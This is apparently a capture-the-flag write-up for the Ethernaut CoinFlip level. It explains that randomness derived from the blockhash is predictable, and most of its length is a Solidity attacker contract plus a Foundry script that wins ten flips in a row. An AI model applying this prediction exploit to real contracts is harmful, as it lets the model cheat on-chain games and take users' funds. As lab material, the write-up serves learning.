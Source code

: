 
Everything in the EVM is deterministic. This means that entropy doesn't exist natively on-chain (you can use third-party solutions like Chainlink VRF). The logic used in the CoinFlip contract is only pseudo-random. So we can predict the next flip by using the same logic as the one in the contract. Once done, we can call the flip function with the predicted value and repeat this 10 times to win the level.

We can craft a smart contract that reproduces the same logic as the CoinFlip contract to predict the next flip and call the flip function with the predicted value.

# Guidance:
- Instead of blindly guessing, you need to replicate the logic from CoinFlip in your contract.

- Get the blockhash(block.number - 1), perform the same calculation, and use that to determine whether to guess true or false.

- Your contract should call flip() with the correct prediction.

# Next Steps:
- Modify your guessOutcome() function to compute the expected result using the same formula as CoinFlip.

- Ensure your contract is calling the flip() function in the same block to stay in sync with the original contract's computation.

``` js 
contract Guess {
    CoinFlip coinFlipContract;
    uint256 public coinFlipContractconsecutiveWins;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(CoinFlip _coinFlip){
        coinFlipContract = _coinFlip; 
    }

    function guessOutcome() public returns(bool){

        uint256 blockValue = uint256(blockhash(block.number - 1));

        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        return coinFlipContract.flip(side);
    }

}
```

To have consecutive 10 wins use this script

```js
    function run() public {
        vm.startBroadcast(player);  // Use `player` for all transactions

        uint256 consecutiveWins = coinFlip.consecutiveWins();

        while (consecutiveWins < 10) {
            guess.guessOutcome();
            consecutiveWins = coinFlip.consecutiveWins();
            console2.log("Consecutive Wins:", consecutiveWins);
        }

        vm.stopBroadcast();

        console2.log("Successfully guessed 10 times in a row!");
    }

```


test_Flip_Guess() function:
- Check if the guess is correct using assertEq()
- Repeat the test for 10 wins in a row
- Log results using console.log() for debugging